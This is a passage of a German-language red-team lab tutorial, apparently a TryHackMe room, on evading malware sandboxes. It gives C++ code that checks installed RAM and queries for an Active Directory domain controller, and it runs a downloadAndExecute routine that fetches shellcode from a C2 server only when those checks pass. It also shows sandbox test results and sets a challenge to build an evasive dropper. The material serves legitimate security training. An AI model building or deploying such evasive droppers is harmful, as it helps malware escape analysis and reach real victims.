    MEMORYSTATUSEX statex;
    // Setze die Länge der Struktur auf die Größe der Struktur    
    statex.dwLength = sizeof(statex);
    // Rufe die GlobalMemoryStatusEx Windows-API auf, um die aktuellen Speicherinformationen abzurufen    
    GlobalMemoryStatusEx(&statex);
    // Drucke den physischen Speicher, der im System installiert ist    
    cout << "Es sind " << statex.ullTotalPhys/1024/1024/1024 << " GiB Speicher im System installiert.";
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Wir deklarieren die MEMORYSTATUSEX Struktur; diese wird mit Informationen von der `GlobalMemoryStatusEx`-WinAPI gefüllt.
2. Jetzt müssen wir die Länge der Struktur festlegen, damit wir sie mit Daten füllen können. Dazu verwenden wir die Funktion `sizeof`.
3. Jetzt, da wir die Länge der Struktur haben, können wir sie mit Daten von der `GlobalMemoryStatusEx`-WinAPI füllen.
4. Wir können nun die Gesamtmenge des Speichers im System ablesen.

**Integration in unseren Code**

Jetzt, da wir das technische Wissen haben, sollten wir diese Überprüfung in unseren Code integrieren. Im Allgemeinen (Sie sollten dies selbst überprüfen) haben die meisten Sandboxes 4 GB RAM für die Maschine reserviert, also sollten wir überprüfen, ob die Speichergröße größer als 5 GB ist. Wenn dies nicht der Fall ist, beenden wir das Programm; wenn doch, setzen wir die Ausführung fort. Wir werden die Funktion `downloadAndExecute` nicht mehr ändern; von hier an werden wir neue Funktionen hinzufügen und die Hauptfunktion ändern.

```cpp
BOOL memoryCheck() {
    // Diese Funktion überprüft, ob das System mehr als 5 GB RAM hat
    // Deklariere die MEMORYSTATUSEX-Struktur    
    MEMORYSTATUSEX statex;
    // Setze die Länge der Struktur auf die Größe der Struktur    
    statex.dwLength = sizeof(statex);
    // Rufe die GlobalMemoryStatusEx Windows-API auf, um die aktuellen Speicherinformationen abzurufen    
    GlobalMemoryStatusEx(&statex);
    // Überprüfe, ob der Systemspeicher größer als 5,00 GB ist    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
    // Bewertet, ob die installierte RAM-Menge größer als 5,00 GB ist,
    // wenn ja, Shellcode herunterladen, wenn nein, das Programm beenden.    
    if (memoryCheck() == TRUE) {        
        downloadAndExecute();    
    } else {        
       exit;    
    }
    return 0;
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Wir erstellen eine neue Funktion (`memoryCheck`), die TRUE oder FALSE zurückgibt.
2. Wir verwenden den vorherigen Code, um die Größe des Systemspeichers zu ermitteln.
3. Wir überprüfen, ob der Systemspeicher größer als 5 GB ist; wenn ja, geben wir TRUE zurück; wenn nein, geben wir FALSE zurück.
4. Der Wert, der von der Funktion zurückgegeben wird, bestimmt, ob wir die Phase 2 herunterladen und ausführen oder nicht.

**Testen unseres Codes**

Nun, da wir die zweite unserer drei Sandbox-Evasion-Techniken abgeschlossen haben, ist es wichtig, dass wir sie testen, um sicherzustellen, dass sie funktioniert. Dazu laden wir unsere Dateien auf [Any.Run](http://any.run/) hoch:

- [Eine mit der Memory Check-Funktion](https://app.any.run/tasks/e2f6a64b-02ef-43ca-bea5-e724b234001c)
- [Eine ohne die Memory Check-Funktion](https://app.any.run/tasks/7d06fc67-35c9-45f5-8865-af9dd6486075)

Wenn man sich die beiden Proben nebeneinander ansieht, zeigen sich einige interessante Unterschiede; im ersten Test funktioniert unsere Memory-Check-Funktion ohne Probleme und beendet das Programm elegant, wenn sie feststellt, dass das Gerät weniger als 5 GB RAM hat.  


In unserem unveränderten, ursprünglichen Code können wir sehen, dass die HTTP-GET-Anforderung an einen AWS-Webserver gesendet wird, um die zweite Phase zu erhalten.  


Dies zeigt, dass unser Code wie beabsichtigt funktioniert! Wir können nun zu einer unserer letzten Bypass-Kategorien übergehen – Abfragen von Netzwerkdaten.

### Abfragen von Netzwerkdaten

Für unsere letzte Umgehungstechnik werden wir Informationen über die Active Directory-Domäne abfragen. Wir halten es einfach, indem wir den Namen eines Domain Controllers mit der [NetGetDCName](https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netgetdcname) Windows API abfragen. Dies ist eine relativ einfache Windows API, die den primären Domänencontroller in der Umgebung abruft. Dies erfordert, dass wir einen Zeiger auf eine Zeichenfolge angeben, in der der DC-Name gespeichert wird. Die Implementierung der Funktion in C++ sieht folgendermaßen aus:

```cpp
BOOL isDomainController() {
    // Erstellen Sie einen langen Zeiger auf Wide String, in dem unser DC-Name gespeichert wird
    LPCWSTR dcName;
    // Abfragen der NetGetDCName Win32 API für den Namen des Domain Controllers
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
    // Konvertieren des DCName von einem Wide String in einen String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    // Überprüfen, ob der UNC-Pfad im dcNewName-Variable referenziert wird. Wenn ja, gibt es wahrscheinlich einen Domain Controller in der Umgebung. Wenn dies zutrifft, bestehen Sie die Überprüfung, andernfalls schlagen Sie fehl.
    if (dcNewName.find("\\\\") != string::npos) {
        return TRUE;
    } else {
        return FALSE;
    }
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Deklarieren Sie zwei Variablen: eine Zeichenfolge und eine LPCWSTR. Die NetGetDCName WinAPI gibt nur einen LPCWSTR zurück.
2. Rufen Sie die NetGetDCName Windows API auf. Zwei Nullwerte werden angegeben, da wir den Servernamen oder den Domänennamen der Umgebung, in der wir uns möglicherweise befinden, nicht kennen.
3. Konvertieren Sie den LPCWSTR in eine normale Zeichenfolgenvariable, um zu überprüfen, ob der Wert NULL (oder im Falle einer Zeichenfolge "") ist.
4. Führen Sie die Vergleichsanweisung aus und geben Sie je nach Gerätenamen True oder False zurück.

Dies wird dann in die `Main()`-Funktion zurückgerufen, die dann bewertet, ob sie unseren Shellcode vom C2-Server herunterladen und ausführen muss. Die `Main`-Funktion sieht nun folgendermaßen aus:

```cpp
int main() {
    if (isDomainController() == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
}
```

**Testen unseres Codes**

Für unsere letzte Sandbox-Analyse werden wir VirusTotal verwenden. Wenn wir die Ergebnisse des SysInternals-Sandbox-Tests ansehen, sehen wir, dass unsere Sandbox-Umgehungstechnik funktioniert hat. Es wurde keine ausgehende Anfrage an Cloudflare gesendet.  




### Hinzufügen von externen Abhängigkeiten in Visual Studio

Für die letzte Umgehungsmethode müssen wir eine neue DLL zur Projektdatei hinzufügen. Stelle sicher, dass dein Projekt zuerst geöffnet ist. Nachdem es geöffnet ist, klicke mit der rechten Maustaste auf den Projektnamen im "Lösungs-Explorer". Im Bild unten heißt der Projektname „Console Application2“:  


Klicke auf „Eigenschaften“ am unteren Ende der Liste; dies öffnet eine neue Ansicht. Klappe die Registerkarte „Linker“ aus und wähle das Untermenü „Eingabe“. Wir sind daran interessiert, die Netapi32-Bibliothek hinzuzufügen.  


Um dies zu tun, klicke auf der rechten Seite, wo alle Bibliotheken referenziert sind, und füge Netapi32.lib hinzu. Sobald es hinzugefügt wurde (wie im obigen Screenshot dargestellt), drücke den „Übernehmen“-Button und „Ok“, um das Fenster zu schließen, und du bist bereit, mit der Entwicklung fortzufahren!

### Abschluss der Implementierungen

Jetzt, da du mit der Implementierung verschiedener Sandbox-Evasionstechniken besser vertraut bist, werden wir im nächsten Schritt eine Sandbox-Evasion-Herausforderung angehen. Du wirst mehrere Umgehungstechniken integrieren müssen, um die "Custom"-Sandbox von TryHackMe zu umgehen. Der gesamte Quellcode wurde bereitgestellt, um denen zu helfen, die möglicherweise nicht so vertraut mit C++ sind.

## Fragen:
Welche Umgehungstechnik umfasst das Erreichen eines Hosts, um deine IP-Adresse zu identifizieren?
```

```

Welche Umgehungstechnik beinhaltet das Verbrauchen von Rechenzeit, um die Sandbox zu umgehen?
```

```

# Task 5 - DIY Sandbox Evasion Challenge
### Die große Flucht

Jetzt, da du einige Erfahrung im Umgehen von Sandboxes gesammelt hast, ist es Zeit für eine Herausforderung! In dieser Aufgabe wirst du den Code aus Aufgabe 4 verwenden, um die "Ultimative Sandbox-Evasion" Methode zu implementieren und das Sandbox-Programm von TryHackMe zu umgehen! Um die Sandbox zu umgehen, musst du die folgenden Techniken implementieren:

- Überprüfen, ob das Gerät zu einer Active Directory-Domäne gehört
- Überprüfen, ob der Systemspeicher mehr als 1 GB RAM beträgt
- Einen ausgehenden HTTP-Request an 10.10.10.10 implementieren
- Einen 60-Sekunden-Schlaf-Timer implementieren, bevor dein Payload von deinem Webserver abgerufen wird

Wenn dein Dropper diese oben genannten Anforderungen erfüllt, wird dir das Flag angezeigt.

Viel Glück und viel Spaß!

Zur Erinnerung: Aufgabe 4 enthält herunterladbaren Quellcode aus den vier Beispielen, die dir bei deinen Sandbox-Evasionstechniken helfen können. Dieses Material findest du auch auf der VM unter `C:\Users\Administrator\Desktop\Materials`.

Die Sandbox-Evasionstechniken können fehlschlagen. Das Programm analysiert die Binärdatei, um zu überprüfen, ob die Überprüfungen implementiert sind. Das ausgehende Gerät hat möglicherweise keinen Internetzugang – solange die Überprüfungen implementiert sind, sollte die Sandbox-Überprüfung erfolgreich sein.

**Sandbox-Evasion-Binärdatei**

Wenn du deine Payload entwickelt hast und bereit bist, deine Evasion-Methoden zu testen, findest du die Binärdatei zum Überprüfen deines Droppers in `C:\Users\Administrator\Desktop\Materials\SandboxChecker.exe`. Unten ist ein Beispiel, das zeigt, wie das Programm funktioniert:

```shell
C:\Users\Administrator\Desktop\Materials\> .\SandboxChecker.exe C:\Users\TryHackMe\Materials\SandboxEvasion.exe
[+] Memory Check found!
[+] Network Check found!
[+] GeoFilter Check found!
[+] Sleep Check found!
Congratulations! Here is your flag:
```

## Fragen:
Erstelle dein eigenes Sandbox-Evasion-Executable mit den Code-Snippets aus der Aufgabe und der VM als Referenz.

Führe die "SandboxChecker.exe" in der Eingabeaufforderung (Beispiel oben) aus und gib dein Executable als Argument an. Alle Überprüfungen müssen korrekt implementiert sein, damit das Flag angezeigt wird.

Hinweis: Wenn du es richtig gemacht hast, wird die "Sleep Check" ungefähr eine Minute dauern, um das Flag anzuzeigen.

Hinweis: Wenn deine DNS-Prüfung `if(dcNewName.find("\\"))` statt `if(dcNewName.find("\\\\"))` hat, kannst du Schwierigkeiten mit der Sleep-Prüfung haben.
```

```

# Task 6 - Wrapping Up
### Abschluss

In diesem Raum haben wir einige moderne und historische Sandbox-Evasionstechniken behandelt, die sowohl von Red Teamern als auch von fortgeschrittenen Bedrohungsakteuren verwendet werden. Nach Abschluss dieses Raums solltest du nun ein allgemeines Verständnis dafür haben, was eine Malware-Sandbox ist, welche Methoden du verwenden könntest, um sie zu umgehen, und sogar einige Beispielcodes, auf denen du aufbauen kannst.

Dies ist keineswegs eine vollständige Liste aller vorhandenen Sandbox-Evasion-Methoden; wir empfehlen dir dringend, eigene Sandbox-Evasionstechniken zu entwickeln, basierend auf dem grundlegenden Wissen, das du in diesem Raum erworben hast.
